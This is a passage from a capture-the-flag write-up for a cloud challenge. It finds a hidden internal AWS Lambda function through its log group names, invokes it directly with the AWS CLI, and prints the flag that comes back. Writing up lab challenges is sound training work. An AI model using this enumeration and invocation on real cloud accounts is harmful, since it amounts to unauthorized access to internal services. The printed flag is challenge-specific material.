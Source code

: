 ```bash
```

We observe that there are 2 log groups that are of interest: 
* `/aws/lambda/event-webservice` 
* `/aws/lambda/internal-secret-of-MeowOlympurr-webservice`

Knowing that there was a AWS lambda function called `event-webservice` from the source code that we extracted earlier, could there be a `internal-secret-of-MeowOlympurr-webservice` AWS lambda function as well?

```bash
$ aws lambda invoke \
    --function-name internal-secret-of-MeowOlympurr-webservice \
    --invocation-type RequestResponse \
    /dev/stdout
{
    "statusCode": 200,
    "headers": {
        "Content-Type": "application/json",
        "Access-Control-Allow-Origin": "*"
    },
    "body": "{\"Message\": \"STF22{LIveInTh3Me0wmen7_:3}\"}",
    "isBase64Encoded": false
}
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

Turns out simply triggering `internal-secret-of-MeowOlympurr-webservice` AWS lambda function without any payload gave us the flag.

## Flag
`STF22{LIveInTh3Me0wmen7_:3}`